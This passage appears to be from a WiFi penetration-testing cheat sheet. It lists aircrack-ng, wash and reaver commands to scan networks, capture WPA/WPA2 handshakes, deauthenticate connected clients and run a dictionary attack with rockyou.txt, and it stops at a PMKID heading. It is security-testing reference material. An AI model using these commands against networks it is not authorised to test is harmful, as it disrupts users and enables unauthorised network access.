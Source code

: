 Search for WiFi networks within your range:

```fundamental
airodump-ng --wps -w airodump_sweep_results wlan0mon

wash -a -i wlan0mon
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install libpcap reaver
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Nano:

```bash
opkg update && opkg install libpcap && opkg -d sd install wash
```

Monitor a specified WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

If you specified an output file, don't forget to stop `airodump-ng` after you are done monitoring because it will fill up all your free storage space with a big PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple's Recon to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

## 3. Cracking

Check if your wireless card supports packet injection:

```fundamental
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### WPA/WPA2 Handshake

Monitor a specified WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start a dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack
